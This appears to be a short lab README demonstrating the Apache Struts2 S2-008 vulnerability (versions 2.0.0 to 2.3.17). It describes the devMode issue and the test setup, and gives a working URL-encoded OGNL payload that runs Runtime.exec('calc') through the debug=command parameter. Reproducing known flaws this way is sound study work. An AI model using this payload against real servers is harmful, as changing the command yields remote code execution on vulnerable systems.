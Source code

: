 # S2-008 Demo

## Summary

Impact of vulnerability: Remote command execution

Affected Software: `Struts 2.0.0` - `Struts 2.3.17`

Problem: When `devMode` is on, the hacker can pass in `ognl` expressions for execution.

## Environment

Struts2 version: `struts-2.2.3`

Server: `Tomcat 8.5.53`

IDE: `idea 2020.1.1 ULTIMATE`

## POC

![devmode](devmode.jpg)

## Payload

- open `calc.exe`

  ```java
  http://localhost:8080/s2_008_war_exploded/devmode.action
  ?debug=command
  &expression=(%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false%22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@java.lang.Runtime@getRuntime%28%29.exec%28%22calc%22%29)
  ```


## Reference

- [struts2最近几个漏洞分析&稳定利用payload](http://drops.xmd5.com/static/drops/papers-902.html)


* [S2-008](https://cwiki.apache.org/confluence/display/WW/S2-008)

